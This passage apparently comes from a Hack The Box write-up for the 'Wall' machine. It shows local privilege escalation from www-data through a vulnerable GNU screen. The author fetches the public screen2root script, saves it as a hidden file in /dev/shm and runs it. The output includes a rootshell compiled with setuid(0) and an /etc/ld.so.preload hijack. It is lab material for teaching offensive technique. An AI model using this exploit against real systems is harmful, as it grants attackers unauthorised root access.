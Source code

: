 

The binary is executable by all users, so there's actually nothing to
stop me from doing this exploit from www-data (that's actually what I
did when the box was live).

### Exploit

`screen` jumps out because I've already done a privesc against `screen`
in HTB, in [FluJab](/htb-flujab.md#priv-drno--root). This
case is easier, as there is a compiler on the box:



    www-data@Wall:/$ which gcc
    /usr/bin/gcc



I'll grab the shell script from the [screen2root
repo](https://raw.githubusercontent.com/XiphosResearch/exploits/master/screen2root/screenroot.sh),
and save it in `/dev/shm` as `.a.sh`. Now I run that, and get a shell:



    www-data@Wall:/dev/shm$ bash .a.sh 
    ~ gnu/screenroot ~
    [+] First, we create our shell and library...
    /tmp/libhax.c: In function 'dropshell':
    /tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
         chmod("/tmp/rootshell", 04755);
         ^~~~~
         chroot
    /tmp/rootshell.c: In function 'main':
    /tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
         setuid(0);
         ^~~~~~
         setbuf
    /tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
         setgid(0);
         ^~~~~~
         setbuf
    /tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
         seteuid(0);
         ^~~~~~~
         setbuf
    /tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
         setegid(0);
         ^~~~~~~
    /tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
         execvp("/bin/sh", NULL, NULL);
         ^~~~~~
    /usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
    collect2: error: ld returned 1 exit status
    [+] Now we create our /etc/ld.so.preload file...
    [+] Triggering...
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    No Sockets found in /tmp/screens/S-www-data.
